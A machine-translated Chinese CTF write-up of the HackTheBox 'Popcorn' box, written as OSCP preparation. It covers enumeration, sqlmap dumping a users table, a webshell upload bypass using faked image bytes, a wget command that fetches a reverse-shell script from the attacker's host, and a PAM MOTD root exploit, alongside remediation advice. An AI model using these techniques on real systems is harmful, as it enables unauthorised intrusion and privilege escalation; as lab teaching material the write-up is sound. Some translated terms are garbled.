# 如何破解:黑客盒子里的爆米花

> 原文：<https://infosecwriteups.com/hackthebox-popcorn-f1ace3de846d?source=collection_archive---------1----------------------->

## 我的 OSCP 认证之旅


爆米花

# 介绍

你们中的一些人一定在想，不要再写一篇 HTB 的文章了。但这里的情况并非如此。让我详细说明一下:

我的目标是记录我获得 OSCP 认证的历程。这个中型博客不是你能找到一个盒子的快速文章的地方。这就是为什么我不想把这个博客系列称为“综述”。这更像是一场圣灵降临节。你看，作为一个渗透测试者，我的常规评估和黑盒子是不一样的。重点不在于使用 metasploit 在最短的时间内破解服务器。就彻底多了。每一个微小的异常和发现都被记录下来。不要误会我的意思，这篇博客将向您展示如何利用目标来获取 user.txt 和 root.txt，但它将提供更多有关目标的信息，哪些漏洞导致了 root，以及如何修复这些漏洞。渗透测试报告的一个非常重要的部分是给客户的建议。客户必须知道他们的应用程序中有哪些漏洞，但更重要的是如何修复漏洞，这样这个问题就不会再出现了。

实现没有任何安全缺陷和漏洞的更安全的应用程序的一个步骤是安全编码。作为当今 web 应用程序的开发人员，您面临着各种各样的潜在危险。了解威胁、避免陷阱并以正确的措施应对它们无疑是每个开发人员最重要的技能之一。这方面也将是我博客系列的一部分。

# 设置

在我们开始之前，对我的设置说几句话:

*   虚拟机上的 Kali Linux
*   Tilix :一个面向 Linux 的分块终端仿真器
*   记笔记的樱桃树，我强烈推荐来自[詹姆斯·霍尔](https://411hall.github.io/OSCP-Preparation/)的模板

# 列举

今天我们将关注来自 HackTheBox 的爆米花，所以启动并运行你的 VPN 吧。

首先让我们从枚举开始，以便获得尽可能多的关于机器的信息。第一步是使用 nmap。Nmap 不仅仅是一个端口扫描器。它还可以用于运行脚本，如漏洞脚本或密码套件扫描。有很多关于 nmap 的内容需要了解，所以请慢慢来，看看帮助页面。每个 pentester 都有自己独特的参数，用于 nmap。我的 nmap 方法如下:

```
nmap -A -oA nmap 10.10.10.6
```

这种扫描设置运行非常快，并显示重要的结果。-A 支持操作系统检测、版本检测、脚本扫描和跟踪路由。-oA nmap 将我们的扫描保存在一个文件中。在常规的测试中，我会运行不同的 nmap 设置。如果您想从服务器获得最多的信息，像-p-用于扫描所有端口或-sU 用于 UDP 扫描这样的参数是非常重要的。这取决于你有多少时间。我高度推荐这张 [nmap 小抄](https://www.stationx.net/nmap-cheat-sheet/)。

我们可以使用以下命令查看我们的扫描:

```
less nmap.nmap 
```



nmap 端口扫描

# 脆弱点

cherry tree 中有一些有趣的发现需要记录下来，这些发现也将记录在 pentest 报告中:

*   **OpenSSH5.1p1** 属于“使用已知漏洞的组件”一类，因为首先它已经很久没有更新了。OpenSSH 的最新版本是 8.3p1，第二，版本 5.1p1 有 [CVE](https://www.cvedetails.com/vulnerability-list/vendor_id-97/product_id-585/version_id-188822/Openbsd-Openssh-5.1.html) 列出的漏洞。应对措施是更新到最新版本，即 8.3p1。定期检查和更新所有组件非常重要。(风险:中等)
*   **Apache 2.2.12** 也属于“使用具有已知漏洞的组件”的范畴。这个版本有惊人数量的漏洞记录在 [CVE](https://www.cvedetails.com/vulnerability-list/vendor_id-45/product_id-66/version_id-82377/Apache-Http-Server-2.2.12.html) 中:最新版本 2.4.46。如果这是一个客户端服务器，我会将风险设置为严重，并立即确保尽快修复这个问题。
*   我会在 pentest 报告中记下 OpenSSH5.1p1、Apache2.2.12 和 Ubuntu Linux。不是作为一个发现，只是不良做法。这个类别就是“信息泄露”。攻击者不需要知道服务器运行的是哪个版本的 Apache 或 OpenSSH。这只会让攻击变得更容易。

如果端口 443 是打开的，我将使用以下命令再次扫描它:

```
nmap — script ssl-enum-ciphers -p 443 10.10.10.6
```

这将为我们提供关于服务器正在使用哪些 TLS 版本以及哪些密码套件的信息。TLSv1.0 将被记为低发现，就像使用不安全的密码套件一样。

这是 nmap 的另一个很酷的脚本，它扫描服务器的常见漏洞:

```
nmap — script vuln 10.10.10.6
```

以下是扫描结果:



nmap 漏洞扫描

哇，信息量真大。它向我们显示了两个开放的端口，并检查它们是否存在常见的漏洞。http-enum 部分很有趣，向我们展示了四个目录。这些发现应该被记录下来。它还说 Apache 服务器容易受到拒绝服务攻击。在真实的 pentest 中，DOS 攻击几乎总是在范围之外。

# 默认网页

让我们看一下 nmap 扫描找到的目录:


目录/测试

三个目录/test、/test.php 和 test/logon.html 看起来都像上图。它向我们展示了 PHP 版本页面。这个 PHP 5 . 2 . 10 版本属于“存在已知漏洞的组件”类别。在 [CVE](https://www.cvedetails.com/vulnerability-list/vendor_id-74/product_id-128/version_id-79645/PHP-PHP-5.2.10.html) 中记录了很多漏洞:不管版本如何，这个网站都不应该运行。攻击者会在这个网站上找到很多信息，比如 PHP 脚本被缓存在哪里，很可能在脑子里计划某种远程文件包含。在 pentest 报告中，这将是一个高风险的发现。

图标/目录也很有趣。目录列表也是 pentest 报告中的一个发现。应该配置 web 服务器以防止出现这种情况。没有理由提供[目录清单](https://portswigger.net/kb/issues/00600100_directory-listing):



目录列表

如果您想使用更多的脚本，您可以在您的 linux 机器上用这个命令找到它们:

```
locate *.nse
```

快速提示:当一个 nmap 脚本运行时，按回车键查看扫描的状态。这比使用-v 的详细模式好得多。

由于虚拟主机路由，将 IP 地址添加到/etc/host 文件中总是一个好主意。我喜欢使用 gedit，但是你当然可以使用 vi。浏览 popcorn.htb 向我们展示了确切的一些网页。源代码没有给我们任何信息。这里运气不好。

```
gedit /etc/hosts
```


/etc/hosts

# 列举，列举，列举！

由于 80 端口是开放的，我们可以使用一个叫做 nikto 的工具。Nikto 是一个 web 服务器扫描器，它给我们提供了一些关于服务器的有用信息。所以让我们来看看:

```
nikto -h popcorn.htb -o nikto.txt -p 80
```

参数-h 指定主机，在我们的例子中是 popcorn.htb。您可以使用-o 将文件输出为 txt-file。因为只有端口 80 在运行，所以我们将使用-p 80 指定端口。


nikto 扫描

很多有趣的东西！像 Apache 2.2.12 这样的发现已经被写下来了。一些低挂水果弹出，如 X-帧-选项头，XSS-保护头和 X-内容-类型头。这些发现将以低风险记录在 pentest 报告中。这些头必须被激活，你就可以开始了。选项 HTTP 方法应该被停用，除非它与跨源资源共享一起使用，但是我不认为这里是这种情况。

因为端口 80 是开放的，所以让我们检查一下网页。在评估 web 应用程序时，让攻击代理在后台运行是一个很好的做法，比如 OWASP ZAP 或 BurpSuite。一个很酷的火狐插件叫做“FoxyProxy”。在使用攻击代理工具时，这很方便，因为它允许您快速关闭代理，或者在某些端口之间切换。另一个很酷的插件叫做“Wappalizer ”,它给出了网页所使用的组件的信息，如 PHP、Apache 等:


瓦帕里斯

看着网站，我们看到的只是一个默认的网页。让默认网页保持运行从来都不是一个好主意。这只是表明，一切都是如何糟糕的实现，可能会有更多的漏洞。非常不好的做法！

另一个需要注意的发现是，在激活了 HTTP 严格传输安全(HSTS)的情况下，只使用了端口 80，而没有使用端口 443 上的 https。这将是另一个低风险的发现。

下一步可能是运行 dirb。这是一个用于目录模糊化的工具。它使用一个单词表来查找目录。dirb 扫描命令可能如下所示:

```
dirb [http://10.10.10.6](http://10.10.10.6) -r -a popcorn.dirb
```

首先我们指定 URL: 10.10.10.6。r 告诉 dirb 不要进入递归模式。a 将输出一个名为“popcorn.dirb”的结果文件。你当然可以使用自己的单词表，比如流行的 rockyou.txt，但是默认情况下，使用的是通用的 dirb 单词表。这是扫描结果:



dirb 扫描

# 激流酒店

唯一的新目录是/torrent/。让我们仔细看看:



目录/种子

首先查看源代码是有意义的，但是这里没有什么有趣的东西。我喜欢在后台运行攻击代理，浏览不同的网页。每次 pentester 看到一个上传功能，你就知道它正在下降。登录表单也是很好的玩法。我喜欢输入'作为用户名和随机密码。有时网页会显示语法错误或错误页面，就像这样:


句法误差

# MySQL 数据库

这条错误消息尖叫道:使用 sqlmap！有些人忘记了 sqlmap 不仅是 get 请求的好工具，也是 POST 请求中用户名和密码的好工具。我们所要做的就是将 HTTP 登录请求保存在如下所示的文件中:



登录请求

sqlmap 扫描可能如下所示:

```
sqlmap -r login.req
```

或者

```
sqlmap -u [http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php) --data="password=test&username=test" --method POST --tables
```

Sqlmap 在 OSCP 考试中是不允许的，但我仍然想尝试一下。令我惊讶的是，它真的工作了，结果我得到了两个不同表的数据库:


数据库

“用户”表可能很有趣。存储的密码将是头奖，所以让我们用下面的命令转储表“users ”:

```
sqlmap -u [http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php) — data=”password=test&username=test” — method POST -D torrenthoster -T users --dump all
```

一个小提示:如果您曾经被 sqlmap Y/N 问题弄得心烦意乱，只需在命令中键入——batch。默认情况下，问题总是会得到回答。


表“用户”

我们看到表格中有两列。用户“测试”是我自己创建的。“admin”用户要有趣得多。该密码似乎是通过 md5 散列得到的。这个 SQL 注入不仅是 pentest 报告中的一个关键发现，而且使用 md5 也是一个发现。MD5 不应用于散列密码。还有更安全的散列算法可用，如 aus PBKDF2、bcrypt 或 scrypt。Sqlmap 甚至解密了用户“test”的密码，因此它也可以通过基于字典的攻击来破解密码。如果你想知道什么样的散列被使用，散列标识符是一个伟大的工具。



散列标识符

Hash-identifier 还说这是 md5 散列，但我没能破解它。一个非常好的网站是 [CyberChef](https://gchq.github.io/CyberChef/) 。sqlmap 的尝试将我引入了死胡同。

# 文件上传——pentester 最喜欢的功能！

让我们仔细看看网站的上传功能。我们必须首先创建一个用户。用户名和密码可以是随机的，比如 test:test。首先，我试图上传一张图片，但我得到了一个错误信息，说“这不是一个有效的种子文件”。所以我想我必须上传一个. iso.torrent 文件:



成功了！现在，我们可以看到一个新页面，其中包含有关上传文件的信息。有趣的部分是图片上传功能:



图片上传

现在我们得到一条消息，说上传成功了。如果这是一次真正的 pentest，我会在评论部分检查可能的跨站点脚本漏洞。

下一步是找出网站存储上传图片的地方。这可以通过在递归模式下使用 dirb 来实现，或者只是猜测。很明显上传到/torrent/upload 目录。



上传目录

所以上传的图片存储在这个目录中。这是在机器上获得反向外壳的好地方。我们必须在这个目录中获得一个 PHP 反向 shell 文件。

我尝试在图片上传中上传一个. php 文件而不是. png 文件，但是出现了一个错误信息:


失败

允许各种文件类型的文件上传将是 pentest 报告中的一个发现，但该网站检查文件类型，甚至文件本身。我通过将一个. png 图像重命名为. iso.torrent 来检查这一点。该网站还发回了一条错误消息，称这确实是一个无效文件。我们必须设法处理我们的 PHP 文件，使它看起来像一个图像。

ZAP 捕捉到了我们的多次上传请求。我试图上传的 PHP 文件如下所示:



php 文件请求

# 远程代码执行

文件名是 cmd.php，你可以看到文件的内容。它所做的只是用参数“test”回应系统请求。如果上传成功，我们可以简单地将 URL 改为类似？test=whoami，服务器应该给出答案。此文件无法上传，因此我们必须更改一些内容。上传的请求。png 图像看起来像这样:


图像请求

# 文件操作

想法是从图像请求中取出字节，并把它们放入 PHP 文件请求中。自从。png 图像上传成功，服务器可能会认为 PHP 文件实际上是一个图像文件。这是因为神奇的字节。在 pentests 期间，我经常使用“用请求编辑器重新发送”功能。这允许我们重新发送请求并操纵它们。



操纵请求

这就是被操纵的请求的样子。我把文件名从 cmd.php 改成了 cmd.png.php，以防服务器检查文件名中是否有“png”。PHP 上传请求中的内容类型是 application/x-php。我把它改成了 image/png 和文件的内容。我只是从。png 文件，并将它们放在被操作的请求体中。现在服务器认为它是一个. png 文件。这确实奏效了:



成功响应

我们的文件已上传，可在以下目录中找到:


目录/种子/上传

如果我们点击文件，我们可以看到内容。让我们将 URL 更改为:

```
[http://10.10.10.6/torrent/upload/ab96176eac05d49d263a1f97eb5dc07491ed3a7b.php?test=whoami](http://10.10.10.6/torrent/upload/ab96176eac05d49d263a1f97eb5dc07491ed3a7b.php?test=whoami)
```

PHP 脚本工作，我们得到了代码执行。服务器以“www-data”作为响应。


远程代码执行

# 剥削

我将使用来自这个 [github 站点](https://github.com/infodox/python-pty-shells)的 [tcp_pty_backconnect.py](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_backconnect.py) 脚本。我们只需要改变 IP 地址:



命令过程

现在我们必须使用一个简单的 http 服务器将脚本下载到 popcorn 机器上:

```
root@kali:/opt/shell/python-pty-shells# python -m SimpleHTTPServer
```

我从 ZAP 换成了 BurpSuite，因为它对我更有效。我再次捕获了“test=whoami”请求，将方法改为 POST，并将“test=whoami”替换为

```
test=wget 10.10.14.6:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
```

这将允许我们从我们的机器上下载 shell 脚本。



打嗝请求

如果我们点击“发送”，脚本应该在服务器上。



打嗝反应

我们可以在响应中看到脚本内容。到目前为止一切顺利。我们还可以看到它在我们的终端中工作:


来自我们 HTTP 服务器的响应

在我们从 BurpSuite 执行脚本之前，我们必须用以下命令设置我们的监听器:

```
root@kali:/opt/shell/python-pty-shells# python tcp_pty_shell_handler.py -b 10.10.14.6:31337
```

10.10.14.6 是我的 IP 地址，31337 是在 shell 脚本中指定的端口。现在我们可以使用 BurpSuite 来执行它。



打嗝请求

# 在机器上

成功了！


用户根

这个 shell 非常适合使用，因为它是一个完整的 pty shell，所以像 up 和 down 这样的键击也可以使用。

首先，我喜欢输入“uname-a ”,它给我们提供了关于 linux 内核的信息。


linux 内核

内核是 2009 年的，所以有可能被 dirtycow 利用。但这不是我愿意走的路。

# user.txt

环顾四周，我们可以找到一个名为 george 的用户和 user.txt:



用户标志

有一种更好的方法可以找到 user.txt 和其他有趣的文件:

```
find /home -type f printf “%f\t%p\t%u\t%g\t%m\n” 2>/dev/null | column -t
```

看起来很奇怪，但让我解释一下:这个命令会找到/home 中的所有文件。%f 表示文件名，\t 表示制表符，p 表示路径，u 表示用户，g 表示组，m 表示文件权限，2>/dev/null 表示将错误消息发送到/dev/null，而| column -t 将给出一些漂亮的输出。结果应该是这样的:


/home 中的文件

# 权限提升

motd . legal-displayed 可能会很有趣。“Motd”代表每日信息。我们可以使用 searchsploit 来查找漏洞:


searchsploit

Linux PAM 1.1.0 似乎容易受到 MOTD 文件篡改权限提升的攻击。要获得关于该漏洞的更多信息，我们可以使用以下命令:

```
root@kali:~/htb/boxes/popcorn# searchsploit -x linux/local/14339.sh
```

该脚本将添加一个名为“toor”的具有 root 权限的新用户。密码会太长。



关于漏洞的信息

为了利用漏洞，我们将复制它的内容，例如使用 gedit，然后将其粘贴到 popcorn 机器上的新文件中。



编辑 shell 脚本

文件现在在机器上。



用户根

正如我们在这里看到的，命令“ls -la”显示了我们的文件，我将其命名为“. privsec.sh”。如果我们输入“bash .privsec.sh ”,脚本就会运行，我们所要做的就是输入用户密码，也就是“toor”。

# root.txt

终于，我们有根了！


根标志

# 摘要

我真的很喜欢这个盒子，因为它不像一个典型的 CTF 风格的盒子。它有一些非常现实的元素。总结这篇文章，很明确的说是易损部件导致了拥有这台机器。攻击者可以获得比他应该获得的多得多的信息。保持组件更新非常重要！另一个方面是服务器应该总是检查上传的是什么类型的文件。很容易欺骗服务器，让它认为正在上传一张图片，即使它是一个 PHP 脚本。这听起来很刺耳，但是用户输入不应该被信任，因为它总是可以被操纵的。

我打算写更多关于不同盒子的博客文章，这样更真实。请随意评论你对这种开箱方法的看法。